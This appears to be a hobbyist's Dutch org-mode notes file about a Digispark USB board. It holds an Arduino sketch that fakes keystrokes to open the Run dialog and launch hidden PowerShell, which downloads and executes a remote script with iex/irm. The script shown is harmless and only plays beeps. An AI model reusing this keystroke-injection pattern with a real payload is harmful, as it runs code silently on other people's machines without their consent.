 #+TITLE: Digispark speeltuin
#+auto_tangle: t


* Inhoud :toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#oude-tests--][Oude tests :-)]]

* About
In deze org file speel ik met powershell scripts die ik in mijn cloud zet.


* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  // empty
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // LINK HERE
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {/* Stops the loop */}
}
#+end_src





* script.ps1
Mijn huidige script staat hier onder. Deze staat in mijn cloud en klaar om gebruikt te worden met mijn digispark.

#+begin_src shell :tangle script.ps1
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src




** Oude tests :-)
